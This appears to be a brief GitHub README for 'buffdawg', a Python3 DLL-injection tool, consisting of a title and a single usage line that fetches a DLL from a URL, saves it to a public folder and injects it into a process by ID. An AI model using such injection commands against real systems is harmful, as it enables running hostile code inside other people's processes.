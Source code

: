 # buffdawg
DLL Injection in Python3

# Usage
`python buffdawg.py -u http://127.0.0.1:8080/whoami.dll -p 11756 -f C:\\Users\\Public\\hi.dll`
